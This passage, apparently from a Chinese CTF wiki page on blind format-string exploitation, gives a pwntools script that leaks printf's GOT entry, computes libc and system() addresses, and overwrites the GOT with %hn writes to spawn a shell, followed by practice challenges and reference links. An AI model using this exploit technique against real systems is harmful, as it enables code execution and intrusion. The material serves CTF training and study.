 ```python
p.recv()
p.sendline('moxiaoxi')
p.recv()

# leak printf@got
payload = "%9$s.TMP" + p64(printf_got_plt+1)
p.sendline(payload)
p.recvuntil('right:')
printf_got = u64(p.recv(5).ljust(7,'\x00')+'\x00')<<8
log.info("printf_got:"+hex(printf_got))

# libcdatabase
libc_base = printf_got - 0x055800
log.info("libc_base:"+hex(libc_base))
system_addr = libc_base + 0x045390
log.info("system_addr:"+hex(system_addr))

one = p64(system_addr)[:2]
two = p64(system_addr>>16)[:2]

payload = "%9104c%12$hn%54293c%13$hn" + 'a'*7
payload += p64(printf_got_plt) + p64(printf_got_plt+2)


p.sendline(payload)
p.recv()
p.sendline('/bin/sh\x00')


p.interactive()
```

## 更多实例

* axb_2019_fmt32

  BUU 上有实验环境，忽略提供的二进制文件，就是盲打题目

* axb_2019_fmt64

  BUU 上有实验环境，忽略提供的二进制文件，就是盲打题目

* SuCTF2018 - lock2 

  主办方提供了 docker 镜像: suctf/2018-pwn-lock2

## 参考

* [ctf-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example-zh)
* [leak me](https://momomoxiaoxi.com/2017/12/26/Blindfmtstr/)
* [pwn-盲打](https://luobuming.github.io/2019/10/17/2019-10-17-pwn-盲打/#64位的利用手法)

